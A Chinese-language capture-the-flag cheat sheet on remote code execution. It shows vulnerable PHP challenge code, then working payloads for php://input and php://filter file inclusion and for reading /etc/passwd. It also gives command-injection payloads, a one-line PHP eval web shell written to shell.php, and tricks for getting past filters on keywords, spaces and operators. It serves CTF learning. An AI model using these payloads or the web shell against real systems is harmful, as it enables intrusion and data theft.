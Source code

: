 # RCE

## 文件包含

### php://input

* 需要allow_url_fopen=On   allow_url_include=On

* 在enctype=”multipart/form-data” 的时候 php://input 是无效的。

* 处理POST内容

题目源码：

``` php+HTML
<?php
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag? <br>
<a href="phpinfo.php">phpinfo</a>
```

payload：

``` http
POST /?file=php://input HTTP/1.1
......
......
Content-Length: 32

<?php system('cat /flag_415');?>
```

### php://filter

* resource = <要过滤的数据流>	   这个参数是必须的。它指定了你要筛选过滤的数据流。
* read = <读链的筛选列表>	       该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
* write = <写链的筛选列表>	   该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
* <两个链的筛选列表>	       任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。

题目源码：

```php+HTML
<?php
error_reporting(E_ALL);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag? <br>
flag in <code>/flag</code>
```

payload:

```
http://URL/?file=php://filter/read=convert.base64-encode/resource=../../../flag
http://URL/?file=php://filter/read=convert.base64-encode/resource=/flag
http://URL/?file=php://filter/read=/resource=/flag
```

### file://

payload:

``` 
?xxx=file:///etc/passwd
```

## 命令注入

### 管道符

* windows

  ```
  “|”：直接执行后面的语句。
  “||”：如果前面的语句执行失败，则执行后面的语句，前面的语句只能为假才行。
  “&”：两条命令都执行，如果前面的语句为假则直接执行后面的语句，前面的语句可真可假。
  “&&”：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则两条命令都执行，前面的语句只能为真。
  ```

* linux

  ```
  “;”：执行完前面的语句再执行后面的语句。
  “|”：显示后面语句的执行结果。
  “||”：当前面的语句执行出错时，执行后面的语句。
  “&”：两条命令都执行，如果前面的语句为假则执行执行后面的语句，前面的语句可真可假。
  “&&”：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则两条命令都执行，前面的语句只能为真。
  ```

### 直接注入

payload：

``` 
1 | ls /
1 | cat /flag
```

ls有回显，但无法显示flag：

* 有可能被注释，按F12
* 有可能因为编码原因无法显示，所以可以给base64

```
1 | cat /flag | base64
```

### echo写入

payload:

``` 
127.0.0.1&echo -e "<?php @eval(\$_POST['shell']);?>" > shell.php 
127.0.0.1&echo "<?php @eval(\$_POST['shell']);?>" > shell.php 
127.0.0.1&echo "<?php @eval($_POST['shell']);?>" > shell.php 
```

### 过滤

#### 过滤cat命令 or flag等关键词

* 反斜杠：`ca\t fl\ag.php`
* 连接符：`ca''t fla''g.txt`
* `\(` `$` `*`
* 使用TAB(`%09`）补全(可能有问题)：`ca%09`


#### 过滤空格

在 bash 下，可以用以下字符代替空格

```
<, <>, %20(space), %09(tab), $IFS$9, ${IFS}, $IFS, \$IFS\$9, \${IFS}
```

#### 过滤目录分隔符 "/"

linux中：`;` 、`&` 、`|` 、`&&`、`||`

`;`的作用就是在 shell 中，担任”连续指令”功能

payload:  

```
1 & cd flag_is_here;ls
1 & cd flag_is_here;cat flag

;cd flag_is_here&&ls
;cd flag_is_here&&cat flag
```

#### 过滤运算符 “|” “&”

用`;`代替

```
127.0.0.1 | ls --> 127.0.0.1 ; ls
```

用`%0a` `%0d` `%0D%0A`绕过

```
127.0.0.1 | ls --> 127.0.0.1 %0a ls
```



#### URL表

![url1](_RCE_image/url1.png)

![url2](_RCE_image/url2.png)